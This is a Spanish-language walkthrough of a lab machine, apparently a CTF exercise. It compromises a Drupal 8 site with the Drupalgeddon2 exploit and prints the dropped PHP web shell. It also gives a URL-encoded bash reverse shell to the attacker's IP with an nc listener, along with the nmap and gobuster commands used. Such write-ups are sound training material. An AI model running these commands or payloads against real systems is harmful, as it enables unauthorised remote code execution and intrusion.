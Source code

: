 ## FASE DE ENUMERACIÓN

IP_victima-->172.17.0.2

Vamos a realizar un scaneo de los puertos que tiene abiertos, así como de los servicios y versiones que corren en ellos:

```bash
sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open -oN puertosYservicios 172.17.0.2
```
```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.25
|_http-title: 403 Forbidden
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.25 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: 172.17.0.2
```
Solo el puerto 80 con una versión apache con alguna que otra vulnerabilidad, haciendo unas pruebas rápidas creo que están sanitizadas

Accedemos a la página y vemos un error 403... con esto, sin nada en el código fuente vamos a hacer un scan de rutas:

```bash
 gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 'http://172.17.0.2/' -x php,html,txt,
```
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/drupal               (Status: 301) [Size: 309] [--> http://172.17.0.2/drupal/]
/.                    (Status: 403) [Size: 285]
/.html                (Status: 403) [Size: 290]
/server-status        (Status: 403) [Size: 298]
Progress: 1102730 / 1102735 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos un CMS drupal..interesante, vamos a ver si logramos saber la versión, vamos a mirar las cabeceras:
```bash
 curl -I http://172.17.0.2/drupal/
```
```
X-Generator: Drupal 8 (https://www.drupal.org)
```
Versión 8...y ahora hablo de memoria pereo creo que en la versión 8 ya no se podia saber dentro de ella cual era así pues vamos a buscar un exploit para la versiñon 8

```
https://www.exploit-db.com/exploits/44449
```
```
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution
```
drupalgedón...suena a muerte y destrucción del CMS drupal.

## ACCESO

1- En mi caso abrí nano para crear un archivo con el nombre drupalgeddon2.rb
  ```
  nano drupalgeddon2.rb
  ```
2-Ccopiar e script en la parte superior derecha del mismo donde pone "Copy"

3-pegar en el nano con "ctrl"+shift (la tecla de encima del ctrl izq con una flecha hacia arriba)+V

4-Guardar ctrl+V

5-Salir ctrl+X

es un script en ruby, instalo una gema que pide "require 'highline/import'" por si va a darme problemas:

```
 sudo gem install highline
```

y....a probar el script:

```bash
 ruby drupalgeddon2.rb http://172.17.0.2/drupal/
```

```
[i] Fake PHP shell:   curl 'http://172.17.0.2/drupal/shell.php' -d 'c=hostname'
```

desde aquí podemos ejecutar comando:

```
bf7c7f570628>> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

intenté lanzarme una reverseshell y no reconoce algunos caracteres, como no estoy seguro si es porque hay que encodear, se que me ha creado un archivo en la ruta "http://172.17.0.2/drupal/shell.php"
asi que lo voy a leer desde el drupalgedon2:

```
bf7c7f570628>> cat shell.php
<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
```
vale si enviamos una consulta al parametro "c" ejecutamos un comando en el sistema.... jeje

vamos a 
```bash
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```
cogemos la revershell de nc y la ajustamos un poco quedando asi:

```
bash -c 'bash -i >& /dev/tcp/172.17.0.1/445 0>&1'
```
-172.17.0.1 es mi IP
-445 el puerto que voy a poner a la escucha

me voy a 
```bash
https://www.urlencoder.org/
```
URLencodeo la rev y me queda así:
```
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F445%200%3E%261%27%0A
```
nos ponemos a la escucha en el puerto 445:
```
 sudo nc -lvnp 445
```
ahora nos vamos a la página web y vamos a usar el parametro c y nuestra rev:

```bash
http://172.17.0.2/drupal/shell.php?c=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F445%200%3E%261%27%0A
```

y estamos dentro!!!



